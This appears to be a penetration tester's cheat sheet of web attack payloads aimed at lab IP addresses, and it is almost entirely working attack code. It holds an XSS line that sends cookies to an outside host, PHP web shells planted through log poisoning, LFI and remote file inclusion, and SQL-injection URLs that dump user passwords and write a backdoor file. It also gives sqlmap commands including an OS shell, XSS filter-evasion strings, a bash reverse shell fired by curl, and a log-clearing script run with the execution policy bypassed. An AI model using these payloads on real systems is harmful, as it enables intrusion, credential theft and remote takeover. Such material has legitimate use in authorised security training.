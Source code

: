 #### XSS

`<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>`

`powershell -ExecutionPolicy Bypass -File clear_logs.ps1`

`powershell -ExecutionPolicy Bypass -File admin_login.ps1`

### LOG POISONING

```
nc -nv 10.11.0.22 80
(UNKNOWN) [10.11.0.22] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

```
### LFI

`http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig`

### Running a server

`<?php echo shell_exec($_GET['cmd']); ?>`

`python -m SimpleHTTPServer 7331`

`python3 -m http.server 7331`

`php -S 0.0.0.0:8000`

`ruby -run -e httpd . -p 9000`

`busybox httpd -f -p 10000`

### PHP data wrapper used with LFI

`http://192.168.175.10/menu.php?file=data:text/plain,%3C?php%20echo%20shell_exec(%22dir%22)%20?%3E`

### RFI

`http://192.168.175.10/menu2.php?cmd=ipconfig&file=http://192.168.119.175/evil.txt?`

`http://192.168.175.10/menu.php?cmd=ipconfig&file=http://192.168.119.175/evil.txt`

### SQL Injection

```
mysql -u root -proot

jim' or 1=1 limit 1;#


http://10.11.0.22/debug.php?id=1 order by 1

http://10.11.0.22/debug.php?id=1 union all select 1, 2, 3

http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version 

http://10.11.0.22/debug.php?id=1 union all select 1, 2, user()

http://10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables

http://10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'

http://10.11.0.22/debug.php?id=1 union all select 1, username, password from users

http://192.168.175.10/debug.php?id=1%20union%20all%20select%201,%202,%20%22%3C?php%20echo%20shell_exec($_GET[%27cmd%27]);?%3E%22%20into%20OUTFILE%20%27c:/xampp/htdocs/backdoor.php%27

```
#### sqlmap

```
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id"

sqlmap -u http://192.168.175.10/debug.php?id=1 -p "id" --dbms=mysql --dump

sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os- shell

http://192.168.175.10:9090/search?search=gizmo%27)+UNION+ALL+SELECT+1,%27d%27,%27s%27,4,5--

http://192.168.175.10:9090/search?search=gizmo%27)%20union%20select%20null,table_name,user(),4,null%20from%20information_schema.tables--

http://192.168.175.10:9090/search?search=gizmo%27)%20union%20select%20null,column_name,user(),4,null%20from%20information_schema.columns%20--

http://192.168.175.10:9090/search?search=gizmo%27)%20union%20select%20null,concat(username,password),user(),4,null%20from%20users%20--

http://192.168.175.10:9090/search?search=gizmo%27)%20union%20select%20null,concat(username,password),user(),4,null%20from%20users%20--
```

### XSS

```
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
<svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
<svg/onload=alert('XSS')>
<BODY ONLOAD=alert('XSS')>

https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
```
### curl url encode

```
curl -k --data-urlencode "cmd=/bin/bash -i -c 'bash -i >& /dev/tcp/192.168.119.175/4444 0>&1'" --get https://192.168.175.44/uploads/shell.php -v

```
